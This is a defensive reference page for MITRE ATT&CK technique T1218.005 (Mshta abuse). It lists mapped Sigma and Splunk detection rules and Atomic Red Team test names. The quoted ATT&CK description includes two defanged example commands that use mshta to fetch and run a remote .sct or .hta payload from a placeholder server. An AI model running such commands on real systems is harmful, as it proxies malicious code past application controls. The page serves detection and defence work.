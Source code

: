 # T1218.005: Mshta
**MITRE ATT&CK Tactic(s):** Defense Evasion

**[MITRE ATT&CK Description](https://attack.mitre.org/techniques/T1218/005)**
<blockquote>Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)</blockquote>

## Policy / Process Controls
### [MITRE D3FEND](https://d3fend.mitre.org/)
**Last accessed:** April 27, 2022

**Total ATT&CK-mapped resources:** 2328

**ATT&CK-mapped resources for this (sub)technique:** 1

Resources mapped to this (sub)technique can be viewed on [this page](https://d3fend.mitre.org/) (see also the [ATT&CK to D3FEND Mapper](https://d3fend.mitre.org/tools/attack-mapper) tool):

* [no defensive relations yet](https://d3fend.mitre.org/techniques/d3f:nodefensiverelationsyet)

## Technical Controls (Detection Rules)
### [Sigma rules public repository](https://github.com/SigmaHQ/sigma)
**Last accessed:** May 19, 2022

**Total ATT&CK-mapped rules:** 2356

**ATT&CK-mapped resources for this (sub)technique:** 8

Resources mapped to this (sub)technique can be located in the following files within the repository's <code>[rules](https://github.com/SigmaHQ/sigma/tree/master/rules)</code> folder:

* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [create_remote_thread](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/create_remote_thread/) / **[CACTUSTORCH Remote Thread Creation](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/create_remote_thread/sysmon_cactustorch.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Baby Shark Activity](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_babyshark.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[MSHTA Spwaned by SVCHOST](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_lethalhta.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Mshta JavaScript Execution](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_mshta_javascript.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[MSHTA Spawning Windows Shell](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_mshta_spawn_shell.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Possible Applocker Bypass](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_possible_applocker_bypass.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Suspicious Parent of Csc.exe](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_csc.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[MSHTA Suspicious Execution 01](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_mshta_execution.yml)**

### [Splunk Security Content](https://github.com/splunk/security_content)
**Last accessed:** May 19, 2022

**Total ATT&CK-mapped rules:** 1478

**ATT&CK-mapped resources for this (sub)technique:** 12

Resources mapped to this (sub)technique can be located in the following files within the repository's <code>[detections](https://github.com/splunk/security_content/tree/develop/detections)</code> folder:

* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Detect mshta inline hta execution](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_mshta_inline_hta_execution.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Detect mshta renamed](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_mshta_renamed.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Detect MSHTA Url in Command Line](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_mshta_url_in_command_line.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Detect Rundll32 Inline HTA Execution](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_rundll32_inline_hta_execution.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Mshta spawning Rundll32 OR Regsvr32 Process](https://github.com/splunk/security_content/blob/develop/detections/endpoint/mshta_spawning_rundll32_or_regsvr32_process.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Office Product Spawn CMD Process](https://github.com/splunk/security_content/blob/develop/detections/endpoint/office_product_spawn_cmd_process.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Windows MSHTA Child Process](https://github.com/splunk/security_content/blob/develop/detections/endpoint/ssa___windows_mshta_child_process.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Windows MSHTA Command-Line URL](https://github.com/splunk/security_content/blob/develop/detections/endpoint/ssa___windows_mshta_command_line_url.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Windows MSHTA Inline HTA Execution](https://github.com/splunk/security_content/blob/develop/detections/endpoint/ssa___windows_mshta_inline_hta_execution.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Windows Rundll32 Inline HTA Execution](https://github.com/splunk/security_content/blob/develop/detections/endpoint/ssa___windows_rundll32_inline_hta_execution.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Suspicious mshta child process](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_mshta_child_process.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Suspicious mshta spawn](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_mshta_spawn.yml)**


## Offensive Security Tests
### [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)
**Last accessed:** May 16, 2022

**Total ATT&CK-mapped tests:** 1258

**ATT&CK-mapped resources for this (sub)technique:** 10

The following unit tests mapped to this (sub)technique can be located in the file [here](https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1218.005/T1218.005.yaml):

* Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject
* Mshta executes VBScript to execute malicious command
* Mshta Executes Remote HTML Application (HTA)
* Invoke HTML Application - Jscript Engine over Local UNC Simulating Lateral Movement
* Invoke HTML Application - Jscript Engine Simulating Double Click
* Invoke HTML Application - Direct download from URI
* Invoke HTML Application - JScript Engine with Rundll32 and Inline Protocol Handler
* Invoke HTML Application - JScript Engine with Inline Protocol Handler
* Invoke HTML Application - Simulate Lateral Movement over UNC Path
* Mshta used to Execute PowerShell

